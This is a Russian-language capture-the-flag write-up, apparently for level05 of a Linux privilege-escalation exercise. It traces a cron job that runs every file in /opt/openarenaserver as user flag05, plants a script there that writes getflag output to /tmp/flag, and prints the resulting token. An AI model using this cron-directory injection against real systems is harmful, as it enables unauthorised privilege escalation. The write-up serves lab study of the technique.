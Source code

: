 ```
ls -l
```
> total 0

В HOME ничего нет, значит надо искать нужный файл

```
find / -name level05 2>/dev/null
```
> /var/mail/level05\
/rofs/var/mail/level05

Смотрм содержимое файла
```
cat /var/mail/level05
```
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

*/2 * * * * говорит о том, что это cron выполняет скрипт раз в 2 минуты
Посмотрим кому пренадлежит данный файл
```
ls -l /usr/sbin/openarenaserver
```
> -rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

-c говорит о том, что выполняется данная программа, посмотрим, ее содержимое

```
cat /usr/sbin/openarenaserver
```
> #!/bin/sh\
\
for i in /opt/openarenaserver/* ; do\
	(ulimit -t 5; bash -x "$i")\
	rm -f "$i"\
done

ulimit -t 5 (cpu time               (seconds, -t) unlimited) Ограничивает время на 5 секунд для текущего процесса оболочки
bash -x выполняет бинарный файл, если это возможно

В данном скрипте видно что в директории /opt/openarenaserver/ ищутся исполняемы файлы и исполняются, так как файл запущен от flag05
нам необходимо подсунуть ему файл, который выполнит getflag

```
echo "/bin/getflag > /tmp/flag" > /opt/openarenaserver/exploit; chmod +x /opt/openarenaserver/exploit
```

Когда скрипт отработал в файле появилось содержимое

```
cat /tmp/flag
```
> Check flag.Here is your token : viuaaale9huek52boumoomioc
